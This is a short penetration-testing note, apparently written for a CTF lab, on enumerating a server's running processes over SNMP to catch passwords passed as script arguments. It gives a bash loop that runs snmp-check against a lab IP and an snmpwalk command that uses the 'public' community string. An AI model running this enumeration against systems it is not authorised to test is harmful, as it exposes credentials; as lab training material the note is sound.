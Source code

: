 ```yaml
---
layout: post
title: Monitoring Processes via SNMP
description: Monitoring Processes via SNMP
summary: Monitoring Processes via SNMP
tags: [foothold,enum,networking,snmp]
minute: 1
---
```

## Overview
Attacker can monitor internal server processes by querying SNMP remotely from attacker machine. He may find juicy informations such as passwords passed on to scripts as arguments.

## Steps
Run the following script. This will put `${TIMESTAMP}.txt` files on your current directory which you can diff with each other.

```bash
#!/bin/bash


get_timestamp() {
  date +'%m-%d-%Y-%H-%M-%S'
}

while true; do
  echo "[$(get_timestamp)] Checking processes .."
  snmp-check 10.10.10.241 -v1 | egrep -v '(Uptime (snmp|system)|kworker)' > $(get_timestamp).txt
  sleep 10
done
```

## Alternatives
* You can also narrow down by displaying only running processes

```bash
snmpwalk -c public -v 1 sneaky 1.3.6.1.2.1.25.4.2.1.2
```
